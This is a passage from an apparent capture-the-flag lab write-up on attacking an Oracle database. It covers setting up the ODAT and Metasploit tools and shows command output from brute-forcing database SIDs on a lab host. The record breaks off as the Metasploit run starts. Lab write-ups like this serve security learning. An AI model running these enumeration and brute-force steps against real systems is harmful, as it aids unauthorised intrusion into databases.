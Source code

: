 
  * Oracle Database Attacking Tool (ODAT) 
    * download release from github: https://github.com/quentinhardy/odat/releases/
    * unzip in `/opt`
    * added line to `~/.bashrc`: `alias odat='export LD_LIBRARY_PATH=/opt/odat-libc2.5-i686/; cd /opt/odat-libc2.5-i686/; ./odat-libc2.5-i686; cd -'`
    * There are detailed instructions on the github readme.
  * metasploit

    * use this walkthrough: https://blog.zsec.uk/msforacle/

### Attack Methodology:

[This Blackhat presentation](https://www.blackhat.com/presentations/bh-
usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) is a good walkthrough
of the steps necessary to exploit an Oracle db.

#### 1 - Identify database

Already done in nmap.

#### 2 - Identify SIDs

We really only need one valid SID, which we can get with `odat` or
`metasploit`.

##### odat

Using `odat`, found two SIDs with `sidguesser`:

    
    
    root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82
    
    [1] (10.10.10.82:1521): Searching valid SIDs
    [1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
    [+] 'XE' is a valid SID. Continue...
    [+] 'XEXDB' is a valid SID. Continue...
    100% |#####################################################################################################################################################| Time: 00:03:49
    [1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
    100% |#####################################################################################################################################################| Time: 00:00:09
    [1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
    [+] 'XE' is a valid SID. Continue...
    100% |#####################################################################################################################################################| Time: 00:03:20
    [+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
    

##### metasploit

metasploit found a couple different SIDs:

    
    
    msf auxiliary(admin/oracle/sid_brute) > run
    